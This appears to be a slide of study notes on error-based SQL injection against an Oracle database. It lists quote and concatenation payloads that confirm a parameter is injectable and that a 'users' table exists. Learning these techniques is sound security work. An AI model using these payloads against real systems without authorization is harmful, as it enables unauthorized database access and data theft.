

Inducing conditional responses by triggering SQL errors:
1.Prove that parameter is vulnerable:
	put single quatation= '--->error
	close the quate=''--->no error
	Check===   ' || (select '') || '
	payload:  ' || (select '' from dual) || ‘ -->oracle database
So,it is vulnerable to sql injection.....

2.Confirm that we have a users table in the database:
	paylaod: ' || (select '' from users) || '
		' || (select '' from users where rownum=1) || '  ###show only 1st row
	So, users table exist in database.....